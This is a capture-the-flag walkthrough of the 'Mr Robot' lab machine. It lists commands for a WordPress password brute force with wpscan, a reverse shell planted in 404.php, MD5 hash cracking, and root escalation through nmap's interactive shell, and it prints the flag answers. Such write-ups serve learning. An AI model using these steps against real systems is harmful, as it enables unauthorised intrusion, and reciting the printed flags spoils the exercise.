 # MR ROBOT

## BASIC INFO
```
export IP=10.10.177.139
```

## HACK THE MACHINE
> - **What is key 1?**
>> 073403c8a58a1f80d943455fb30724b9

robots.txt

> - **What is key 2?**
>> 822c73956184f694993bede3eb39f959

Gobuster found wp-login\
Sort the fsocity.dic first to shrink down the size.\
wpscan on the page with username and password from fsocity.dic\


```
wpscan --url http://$IP -P fsocity_sorted.dic --usernames elliot

[!] Valid Combinations Found:
| Username: elliot, Password: ER28-0652
```

After we logged in, let's try to root the machine.\
Let's try to change the content of 404.php since we know it is running as php.\
Generate a rev_shell with msfvenom.
```
msfvenom 
```

Once we are in the meterpreter session, navigate to /home/robot and grab the password.raw-md5
```
robot:c3fcd3d76192e4007dfb496cca67e13b
robot:abcdefghijklmnopqrstuvwxyz
```
Once we su as robot then we can cat out key-2-of-3.txt

> -  **What is key 3?**
>> 04787ddef27c3dee1ee161b21670b4e4

After we are in as robot, let's try to escalate our privilege more. Let's say... root\
`find / -perm +6000 2>/dev/null` to find root process.\
From the hint it mentioned nmap. And with GTFObins we knwo the exploits.
```
nmap --interactive
!sh
```

Now we are root. `cat /root/key-3-of-3.txt`

![badges](../../../badges/dianchia.png)